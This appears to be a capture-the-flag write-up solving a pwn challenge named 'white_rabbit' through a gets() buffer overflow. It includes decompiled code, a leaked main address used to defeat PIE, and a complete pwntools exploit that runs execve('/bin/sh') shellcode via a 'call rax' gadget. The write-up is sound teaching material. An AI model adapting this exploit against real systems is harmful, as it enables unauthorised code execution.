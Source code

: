 We are given a binary file. Decompile it we have:

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  puts("\n  (\\_/)");
  puts(asc_200D);
  printf("  / > %p\n\n", main);
  puts("follow the white rabbit...");
  follow();
  return 0;
}
```

It gives us the address of `main` function, so we can get the stack leak here. Decompile the `follow()` function: 

```c
void __fastcall follow()
{
  char buf[100]; // [rsp+0h] [rbp-70h] BYREF

  gets((__int64)buf);
}
```

so a Buffer Overflow here for us to exploit. Because there is no libc here, so im thinking about ret2system or ret2shellcode. But there is no gadgets for me. For ret2shellcode, i need to find gadget 'call rax' and then find the offset to the value where `rax` points to.

![image](https://hackmd.io/_uploads/H13l-Sn7Jl.png)

Luckily, there is a gadget here. 
Script: 
```python!
#!/usr/bin/env python3
from pwn import *

exe = ELF("./white_rabbit")

context.binary = exe
def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("whiterabbit.chal.wwctf.com", 1337)

    return r
def main():
	r = conn()
	input()
	r.recvuntil(b'> ')
	bin_leak = int(r.recv(14), 16)
	info('Leak: ' + hex(bin_leak))
	exe.address = bin_leak - exe.sym['main']
	info('Sym main: ' + hex(exe.address))
	shellcode = asm(
		'''
		mov rax, 0x3b
		mov rdi, 29400045130965551
		push rdi
		mov rdi, rsp
		xor rsi, rsi
		xor rdx, rdx
		syscall
		''', arch='amd64')
	call_rax = exe.address + 0x0000000000001014
	payload = shellcode + b'A'*91 + p64(call_rax)
	r.sendlineafter(b'follow the white rabbit...\n', payload)
	r.interactive()

if __name__ == "__main__":
    main() 
```
